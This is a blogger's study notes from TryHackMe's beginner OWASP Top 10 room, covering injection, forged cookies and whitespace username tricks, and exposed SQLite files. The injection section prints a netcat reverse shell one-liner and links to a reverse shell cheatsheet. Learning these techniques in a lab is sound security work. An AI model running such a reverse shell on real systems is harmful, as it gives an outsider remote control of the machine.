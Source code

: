 # TryHackMe: Complete Beginner

## OWASP Top 10

### (Severity 01) Injection

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like:

```bash
nc -e /bin/bash $LOCAL_IP $LOCAL_PORT
```

I’m pretty sure that this would have allowed us to avoid all of the named-pipe-magic that Metsploit generated [a couple of days ago](2021-10-02-tryhackme-complete-beginner.md)… Though I’m also pretty sure that Metasploit’s code is more robust (since it will work with versions of nc that *don’t* support the -e flag).

[A library of reverse shell methods.](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Injection attacks can be divided into two broad classes:

BLIND attacks are ones where command output is not returned to the attacker in a server response.

ACTIVE attacks are those where the command output *is* returned to the attacker in a server response.

### (Severity 02) Broken Authentication

Sometimes you don’t need to steal a session cookie… If the webserver isn’t setting session cookies in a sufficiently random fashion, *forging* one can become an option!

The TryHackMe tutorial implies that a common mistake is to allow the registration of a username that matches an existing user but with a leading or trailing whitespace character; sometimes this new user will be interpreted to be the same as the old user (the one without the whitespace), resulting in the same level of access as that user.

Honestly, I’m trying to imagine how this would happen in most realistic contexts. Yes, it’s easy to construct an example in Bash (etc.), but most languages I’ve seen web apps written it take string quoting a lot more seriously.

### (Severity 03) Sensitive Data Exposure

So, the trick this section is talking about is that some small web applications use SQLite databases, and a sloppy webdev might store the database file in the application webroot where it can be downloaded and then read at our leisure.

- - - -

👤 Nathan Acks
📅 October 5, 2021
